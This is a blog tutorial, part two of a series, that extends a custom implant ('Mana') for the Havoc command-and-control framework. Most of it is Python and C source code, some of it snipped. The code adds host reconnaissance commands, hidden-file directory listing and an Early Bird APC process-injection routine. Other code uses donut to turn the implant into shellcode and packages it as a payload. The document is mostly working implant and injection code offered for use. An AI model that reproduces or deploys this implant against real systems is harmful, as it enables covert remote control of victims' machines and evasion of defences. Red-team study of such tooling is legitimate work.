

[back to blog](../blog.md)

If you missed part1 for creating custom Havoc c2 agent check the previous blog [Custom Havoc Agent](custom-havoc-agent.md)

source code: https://github.com/damaidec/Mana-agent

* [Fixing sleep issue](#fixing-sleep-issue)
* [Adding new command](#adding-new-command)
  * [Whoami command](#whoami)
  * [pwd command](#pwd)
  * [change directory](#change-directory)
  * [ls command](#ls-command)
  * [Early Bird Process Injection](#ebapc)
* [Shell code format](#adding-shell-code-format)


# Fixing sleep issue

Since the base agent is now complete, next is to add more features on it. First lets fix the sleep since it does not match. On Main.c change the sleep so it matches the actual value.

```c
Sleep( Instance.Config.Sleeping );
```

# Adding new command

Next extending the command. For this example I will be implementing 5 new simple commands.

When adding new command you need to add the following on agent.py. Command hex value, class command and adding the new commands on the array.

## Whoami

```py

# A new hex value should be also added  and a class for that command
COMMAND_WHOAMI = 0x300

# New class function
class CommandWhoami(Command):
    CommandId   = COMMAND_WHOAMI
    Name        = "whoami"
    Description = "executes whoami command"
    Help        = ""
    NeedAdmin   = False
    Mitr        = []
    Params      = []

    def job_generate( self, arguments: dict ) -> bytes:
        Task = Packer()
        Task.add_int( self.CommandId )
        return Task.buffer

class Mana(AgentType):
    Commands = [
        CommandShell(),
        CommandUpload(),
        CommandDownload(),
        CommandExit(),
        CommandWhoami(),# New command should be added in this array
    ]
```

Next step is edit the command.c/h. For the command.h just simply add the new value for the hex value command and the command function

```c
#define COMMAND_WHOAMI           0x300 // New value
<SNIPPED>
VOID CommandWhoami( PPARSER Parser ); // Added new function
```

For the command.c you simply add the new command function and then the C source code.

```c

#define Mana_COMMAND_LENGTH 6

Mana_COMMAND Commands[ Mana_COMMAND_LENGTH ] = {
        { .ID = COMMAND_SHELL,            .Function = CommandShell },
        { .ID = COMMAND_DOWNLOAD,         .Function = CommandDownload },
        { .ID = COMMAND_UPLOAD,           .Function = CommandUpload },
        { .ID = COMMAND_EXIT,             .Function = CommandExit },
        { .ID = COMMAND_WHOAMI,           .Function = CommandWhoami }, // New command
};

<SNIPPED>

// This function gets the current user name and its token privilege
// There are two ways to pass the output back to C2.
// 1. Using AnonPipeRead which is similar to the commandShell
// 2. Packs the output with packageaddbytes and then use packagestransmit to send it back to C2 server.
VOID CommandWhoami( PPARSER Parser ){

    PPACKAGE Package  = PackageCreate( COMMAND_OUTPUT ); // Indicates to the agent handle that it will be giving a command output and should read the str
    char username[256];
    DWORD username_len = sizeof(username);
    HANDLE token = NULL;
    DWORD size = 0;
    PTOKEN_PRIVILEGES privileges = NULL;

    CHAR     Output[4096]    = { 0 };
    INT      Offset          = 0;


    // Get current user
    if (GetUserNameA(username, &username_len)) {
        Offset += sprintf( Output + Offset, "[+] Current User: %s\r\n\r\n", username ); // Prepares and concatenate values to be sent back to C2
    }
    else {
        Offset += sprintf( Output + Offset, "[!] Failed to get username\r\n" );
    } 

    // Get token information
    if (!OpenProcessToken(GetCurrentProcess(), TOKEN_QUERY, &token))
        return;

    GetTokenInformation(token, TokenPrivileges, NULL, 0, &size);
    privileges = (PTOKEN_PRIVILEGES)malloc(size);

    if (!GetTokenInformation(token, TokenPrivileges, privileges, size, &size)) {
        CloseHandle(token);
        free(privileges);
        return;
    }

    //Headers for the output
    Offset += sprintf( Output + Offset, "%-35s | %-45s | %s\r\n", "Privilege Name", "Description", "Status" );
    Offset += sprintf( Output + Offset, "----------------------------------------------------------------------------------------------------\r\n" );

    // Get current privileges and it will also get the token description and checks also if it's enabled or not
    for (DWORD i = 0; i < privileges->PrivilegeCount; i++) {
        char privName[128] = { 0 };
        DWORD privNameLen = sizeof(privName);
   
        
        if (!LookupPrivilegeNameA(NULL, &privileges->Privileges[i].Luid, privName, &privNameLen))
            continue;

        BOOL enabled = (privileges->Privileges[i].Attributes & SE_PRIVILEGE_ENABLED);

        CHAR displayName[256];
        DWORD displayNameSize = sizeof(displayName);
        DWORD languageId = 0;

        
        BOOL result = LookupPrivilegeDisplayNameA(
            NULL,
            privName,
            displayName,
            &displayNameSize,
            &languageId   
        );
        Offset += sprintf( Output + Offset, "%-35s | %-40s | %s\r\n",
            privName,
            displayName,
            enabled ? "[+] Enabled" : "[-] Disabled"
        );

    }

    Offset += sprintf( Output + Offset, "\r\n[*] Total privileges: %lu\r\n", privileges->PrivilegeCount );

    free(privileges);
    CloseHandle(token);

    // Transfer data
    PackageAddBytes( Package, (PBYTE)Output, Offset );
    PackageTransmit( Package, NULL, NULL );
}

```

## print working directory

On agent.py  add the following code. So it can recognize the new command

```py
COMMAND_PWD              = 0x400

<SNIPPED>

class CommandPwd(Command):
    CommandId   = COMMAND_PWD
    Name        = "pwd"
    Description = "Get current working directory"
    Help        = ""
    NeedAdmin   = False
    Mitr        = []
    Params      = []

    def job_generate( self, arguments: dict ) -> bytes:
        Task = Packer()
        Task.add_int( self.CommandId )
        return Task.buffer

<SNIPPED>

Commands = [
        CommandShell(),
        CommandUpload(),
        CommandDownload(),
        CommandExit(),
        CommandWhoami(),
        CommandPwd(), # New command
    ]
```

Same thing. The command.c/h needs to be edited. 

```c
#define COMMAND_PWD              0x400

<SNIPPED>

VOID CommandPwd( PPARSER Parser );
```

On the command.c add the new function below. This function uses GetCurrentDirectoryA win API to get the current directory.

```c

#define Mana_COMMAND_LENGTH 7 // For every new command add one count here

Mana_COMMAND Commands[ Mana_COMMAND_LENGTH ] = {
        { .ID = COMMAND_SHELL,            .Function = CommandShell },
        { .ID = COMMAND_DOWNLOAD,         .Function = CommandDownload },
        { .ID = COMMAND_UPLOAD,           .Function = CommandUpload },
        { .ID = COMMAND_EXIT,             .Function = CommandExit },
        { .ID = COMMAND_WHOAMI,           .Function = CommandWhoami },
        { .ID = COMMAND_PWD,              .Function = CommandPwd }, // Add the new command here
};

<SNIPPED>

// This function uses the WinAPI GetCurrentDirectoryA and then transmit the output.

VOID CommandPwd( PPARSER Parser )
{
    puts( "Command::Pwd" );

    PPACKAGE Package         = PackageCreate( COMMAND_OUTPUT );
    CHAR     Output[512]     = { 0 };
    INT      Offset          = 0;
    CHAR     CurrentDir[MAX_PATH] = { 0 };

    if ( GetCurrentDirectoryA( MAX_PATH, CurrentDir ) )
    {
        Offset += sprintf( Output + Offset, "%s\r\n", CurrentDir );
    }
    else
    {
        Offset += sprintf( Output + Offset, "[!] Failed to get current directory\r\n" );
    }

    PackageAddBytes( Package, (PBYTE)Output, Offset );
    PackageTransmit( Package, NULL, NULL );
}
```

## change directory

This function perform a change directory by using winapi SetCurrentDirectoryA to change directory and then executes GetCurrentDirectoryA to show the current directory.

```c
VOID CommandCd( PPARSER Parser )
{
    puts( "Command::Cd" );

    PPACKAGE Package        = PackageCreate( COMMAND_OUTPUT );
    CHAR     Output[1024]   = { 0 };
    INT      Offset         = 0;
    UINT32   ArgsLen        = 0;
    PCHAR    Args           = NULL;
    CHAR     Path[MAX_PATH] = { 0 };
    CHAR     CurrentDir[MAX_PATH] = { 0 };

    // Get arguments
    Args = ParserGetBytes( Parser, &ArgsLen );


    memcpy( Path, Args, (ArgsLen < MAX_PATH) ? ArgsLen : MAX_PATH - 1 );

    // Trim trailing whitespace/newlines to execute cd ..
    for ( INT i = strlen(Path) - 1; i >= 0 && (Path[i] == ' ' || Path[i] == '\r' || Path[i] == '\n'); i-- )
    {
        Path[i] = '\0';
    }

    // Attempt to change directory
    if ( SetCurrentDirectoryA( Path ) )
    {
        // Get and display new current directory
        if ( GetCurrentDirectoryA( MAX_PATH, CurrentDir ) )
        {
            Offset += sprintf( Output + Offset, "[+] Changed to: %s\r\n", CurrentDir );
        }
        else
        {
            Offset += sprintf( Output + Offset, "[+] Directory changed\r\n" );
        }
    }
    else
    {
        DWORD Error = GetLastError();
        
        if ( Error == ERROR_FILE_NOT_FOUND || Error == ERROR_PATH_NOT_FOUND )
        {
            Offset += sprintf( Output + Offset, "[!] Path not found: %s\r\n", Path );
        }
        else if ( Error == ERROR_ACCESS_DENIED )
        {
            Offset += sprintf( Output + Offset, "[!] Access denied: %s\r\n", Path );
        }
        else if ( Error == ERROR_INVALID_NAME )
        {
            Offset += sprintf( Output + Offset, "[!] Invalid path: %s\r\n", Path );
        }
        else
        {
            Offset += sprintf( Output + Offset, "[!] Failed to change directory (Error: %d)\r\n", Error );
        }
    }

//Transmit data
PackageAddBytes( Package, (PBYTE)Output, Offset );
PackageTransmit( Package, NULL, NULL );
}
```

the class commandCd have possitional arguments, for commands that needs argument you can add it on Params array and then add CommandParam()

```py

class CommandCd(Command):
    CommandId   = COMMAND_CD
    Name        = "cd"
    Description = "change working directory"
    Help        = "Usage: cd [path]"
    NeedAdmin   = False
    Mitr        = []
    Params      = [ # command arguments
        CommandParam(
            name="path", 
            is_file_path=False, 
            is_optional=False)
        ]

    def job_generate( self, arguments: dict ) -> bytes:
        Task = Packer()
        Task.add_int( self.CommandId )
        path = arguments.get('path', '')# add task path
        Task.add_data(path)
        return Task.buffer
```

## ls command

The ls command accepts argument which is as directory path. This also shows hidden files and folders as it gets executed. It also marks hidden files, with [H] and [S] for system files.

```c

VOID CommandLs( PPARSER Parser )
{
    puts( "Command::Ls" );

    PPACKAGE          Package         = PackageCreate( COMMAND_OUTPUT );
   <SNIPPED>
    
    // Get arguments from parser
    Args = ParserGetBytes( Parser, &ArgsLen );
    // checks if args is provided by the operator if not it will use the current directory.
    if ( ArgsLen > 0 && Args != NULL )
    {
        // Copy path from args
        memcpy( TargetDir, Args, (ArgsLen < MAX_PATH - 1) ? ArgsLen : MAX_PATH - 1 );

        // Trim trailing whitespace/newlines for ..
        for ( INT i = strlen(TargetDir) - 1; i >= 0 && (TargetDir[i] == ' ' || TargetDir[i] == '\r' || TargetDir[i] == '\n'); i-- )
        {
            TargetDir[i] = '\0';
        }

        // If empty after trim, use current directory
        if ( strlen(TargetDir) == 0 )
        {
            GetCurrentDirectoryA( MAX_PATH, TargetDir );
        }
    }
    else
    {
        // No args,  use current directory
        GetCurrentDirectoryA( MAX_PATH, TargetDir );
    }


    // Get full path for display output
    GetFullPathNameA( TargetDir, MAX_PATH, FullPath, NULL );
    
    sprintf( SearchPath, "%s\\*", FullPath );

    // Header for output
    Offset += sprintf( Output + Offset, "\r\n Directory of %s\r\n\r\n", FullPath );
    Offset += sprintf( Output + Offset, "%-12s  %-8s  %-12s  %s\r\n", "Date", "Time", "Size", "Name" );
    Offset += sprintf( Output + Offset, "------------  --------  ------------  ----------------------------------------\r\n" );

    // Find files
    hFind = FindFirstFileA( SearchPath, &FindData );
    
    if ( hFind == INVALID_HANDLE_VALUE )
    {
        Offset += sprintf( Output + Offset, "[!] Failed to list directory (Error: %d)\r\n", GetLastError() );
    }

    do
    {
        // Convert file time to local time
        FileTimeToLocalFileTime( &FindData.ftLastWriteTime, &LocalTime );
        FileTimeToSystemTime( &LocalTime, &SysTime );

        // Format date and time
        CHAR DateStr[16] = { 0 };
        CHAR TimeStr[16] = { 0 };
        sprintf( DateStr, "%02d/%02d/%04d", SysTime.wMonth, SysTime.wDay, SysTime.wYear );
        sprintf( TimeStr, "%02d:%02d %s",
            (SysTime.wHour % 12) ? (SysTime.wHour % 12) : 12,
            SysTime.wMinute,
            (SysTime.wHour >= 12) ? "PM" : "AM" );

        // Format size
        CHAR SizeStr[16] = { 0 };
        // Check if the hfile contains an attribute of a folder if yes it will be appended with <DIR>
        if ( FindData.dwFileAttributes & FILE_ATTRIBUTE_DIRECTORY )
        {
            strcpy( SizeStr, "<DIR>" );
            DirCount++;
        }
        else
        {
            // If not a folder it will get the file size and convert it to B,KB,MB and GB
            ULONGLONG FileSize = ((ULONGLONG)FindData.nFileSizeHigh << 32) | FindData.nFileSizeLow;
            TotalSize += FileSize;
            FileCount++;

            if ( FileSize >= 1073741824ULL )
                sprintf( SizeStr, "%.1f GB", (double)FileSize / 1073741824.0 );
            else if ( FileSize >= 1048576ULL )
                sprintf( SizeStr, "%.1f MB", (double)FileSize / 1048576.0 );
            else if ( FileSize >= 1024ULL )
                sprintf( SizeStr, "%.1f KB", (double)FileSize / 1024.0 );
            else
                sprintf( SizeStr, "%llu B", FileSize );
        }

        // Markers for hidden/system 
        CHAR Marker[8] = { 0 };
        if ( FindData.dwFileAttributes & FILE_ATTRIBUTE_HIDDEN ) strcat( Marker, "[H]" );
        if ( FindData.dwFileAttributes & FILE_ATTRIBUTE_SYSTEM ) strcat( Marker, "[S]" );

        // Output line
        Offset += sprintf( Output + Offset, "%s  %s  %-12s  %s %s\r\n", DateStr, TimeStr, SizeStr, FindData.cFileName, Marker );


    } while ( FindNextFileA( hFind, &FindData ) );

    FindClose( hFind );

    // Shows the total file count with combined size, then directory count on the target directory
    Offset += sprintf( Output + Offset, "\r\n     %d File(s)  ", FileCount );
    if ( TotalSize >= 1073741824ULL )
        Offset += sprintf( Output + Offset, "%.2f GB\r\n", (double)TotalSize / 1073741824.0 );
    else if ( TotalSize >= 1048576ULL )
        Offset += sprintf( Output + Offset, "%.2f MB\r\n", (double)TotalSize / 1048576.0 );
    else
        Offset += sprintf( Output + Offset, "%llu bytes\r\n", TotalSize );
    Offset += sprintf( Output + Offset, "     %d Dir(s)\r\n", DirCount );

//Transfer the data back to c2
PackageAddBytes( Package, (PBYTE)Output, Offset );
PackageTransmit( Package, NULL, NULL );
}

```

## EBAPC

I wont be explaining what happens on early bird APC injection, however a good resource to read it is from iredteam, maldev academy and on other blogs. 

https://www.ired.team/offensive-security/code-injection-process-injection/early-bird-apc-queue-code-injection

On python script similar to file upload use the same params. It should accept 2 parameters 1 for process name and 2 for local file name or your raw shellcode.

```py
class CommandEbapc( Command ):
    CommandId   = COMMAND_EBAPC
    Name        = "ebapc"
    Description = "Early Bird APC injection"
    Help        = "Usage: ebapc <process_path> <shellcode_file>"
    NeedAdmin   = False
    Mitr        = []
    Params      = [
        CommandParam(
            name="process_name",
            is_file_path=False,
            is_optional=False
        ),
        CommandParam(
            name="local_file",
            is_file_path=True,
            is_optional=False
        )
    ]

    def job_generate( self, arguments: dict ) -> bytes:
        Task        = Packer()
        Processname = arguments[ 'process_name' ]
        local_file    = b64decode( arguments[ 'local_file' ] )
        Task.add_int( self.CommandId )
        Task.add_data( Processname )
        Task.add_data( local_file )
        return Task.buffer
```

Below code snippet shows the source code for early bird APC injection. Note that in order to use this you must use a shellcode. You can use donut to generate a shellcode or use the output format shellcode since this will use donut to convert Mana.exe into shellcode format.

```
./donut -i Mana.exe -o Mana.bin -a 2 -f 1       

-a 2 is x64 architecture (use -a 1 for x86)
-f 1 is for raw binary format

  [ Donut shellcode generator v1 (built Oct 23 2024 07:56:47)
  [ Copyright (c) 2019-2021 TheWover, Odzhan

  [ Instance type : Embedded
  [ Module file   : "Mana.exe"
  [ Entropy       : Random names + Encryption
  [ File type     : EXE
  [ Target CPU    : amd64
  [ AMSI/WDLP/ETW : continue
  [ PE Headers    : overwrite
  [ Shellcode     : "Mana.bin"
  [ Exit          : Thread

```

Below is the C code for Early Bird APC Injection.

```c
VOID CommandEbapc( PPARSER Parser )
{
    PPACKAGE Package          = PackageCreate( COMMAND_OUTPUT );
   <SNIPPED>

    STARTUPINFOA        Si = { 0 };
    PROCESS_INFORMATION Pi = { 0 };
    Si.cb = sizeof(Si);

    //Spawn a process in a suspended state.

    if ( !CreateProcessA( ProcessPath, NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &Si, &Pi ) )
    {
        Offset += sprintf( Output + Offset, "[!] CreateProcessA failed: %d\r\n", GetLastError() );
    }

    Offset += sprintf( Output + Offset, "[+] Created process PID: %d\r\n", Pi.dwProcessId );

    // Allocate memory on the new spawned process
    ShellcodeAddress = VirtualAllocEx( Pi.hProcess, NULL, ShellSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE );
    if ( !ShellcodeAddress )
    {
        // if fails Terminate process
        Offset += sprintf( Output + Offset, "[!] VirtualAllocEx failed: %d\r\n", GetLastError() );
        TerminateProcess( Pi.hProcess, 0 );
    }

    // Write shellcode in the allocated memory on the spawn process
    if ( !WriteProcessMemory( Pi.hProcess, ShellcodeAddress, Shellcode, ShellSize, NULL ) )
   <SNPPED>

    // Change protection level to RX
    if ( !VirtualProtectEx( Pi.hProcess, ShellcodeAddress, ShellSize, PAGE_EXECUTE_READWRITE, &dwOldProtection ) )
    <SNIPPED>

    // Queue APC to the main thread 
    if ( !QueueUserAPC( (PAPCFUNC)ShellcodeAddress, Pi.hThread, 0 ) )
   <SNIPPED>

    // Resume thread to get shellcode execution
    ResumeThread( Pi.hThread );
    Offset += sprintf( Output + Offset, "[+] Shellcode injected and executed!\r\n" );

    // Cleanup handles
    CloseHandle( Pi.hProcess );
    CloseHandle( Pi.hThread );
    <SNIPPED>
}
```

Below screenshot shows the successful execution of early bird apc injection.



# Adding shell code format 

On the agent.py there will be a new function called generate_shellcode_from_exe. This function executes donut with an args of -i <input_file>, -o <output_format>, -a 2 (x64), -f 1 (raw binary format)

```py
# To get donut, go on this github https://github.com/TheWover/donut/releases/tag/v1.1
DONUT_PATH = "<path to donut>"

def generate_shellcode_from_exe(exe_path):
    """Convert compiled EXE to shellcode using Donut"""
    
    bin_path = exe_path.replace(".exe", ".bin")
    
    cmd = [DONUT_PATH, "-i", exe_path, "-o", bin_path, "-a", "2", "-f", "1"]
    
    result = subprocess.run(cmd, capture_output=True, text=True)
    
    if result.returncode == 0 and os.path.exists(bin_path):
        with open(bin_path, "rb") as f:
            return f.read()
    
    return None
```

Next is to edit the generate class. This class will now have an if elseif to check the config output format. Inorder to correctly output it based on the desired format.

```py
# if statement for shellcode
if config['Options']['Format'] == "Windows Shellcode":
            exe_path = "./Bin/Mana.exe"
            self.builder_send_message(config['ClientID'], "Info", "[*] Converting to shellcode...")
            shellcode = generate_shellcode_from_exe(exe_path)

            if shellcode:
                self.builder_send_message(config['ClientID'], "Good", f"[+] Shellcode size: {len(shellcode)} bytes")
                self.builder_send_payload(config['ClientID'], f"{self.Name}.bin", shellcode)
            else:
                self.builder_send_message(config['ClientID'], "Error", "[!] Shellcode generation failed")
# else if statement for exe
        elif config['Options']['Format'] == "Windows Executable":
            # Build with cmake
            self.builder_send_message(config['ClientID'], "Info", "[*] Compiling...")
            os.system("cmake . && make")

            # Read compiled binary
            data = open("./Bin/Mana.exe", "rb").read()
            
            self.builder_send_message(config['ClientID'], "Good", f"[+] Size: {len(data)} bytes")

            # build_send_payload. this function send back your generated payload
            self.builder_send_payload(config['ClientID'], self.Name + ".exe", data)
# else if there is something wrong with the format or the format does not yet exist such as dll
        else:
            self.builder_send_message(config['ClientID'], "Info", "[*] Something failes check agent.py...")
```
For the next blog, will be focused on encrypting the traffic.

I’m still learning, so some OPSEC trade-offs or imperfect practices may appear.


[back to blog](../blog.md)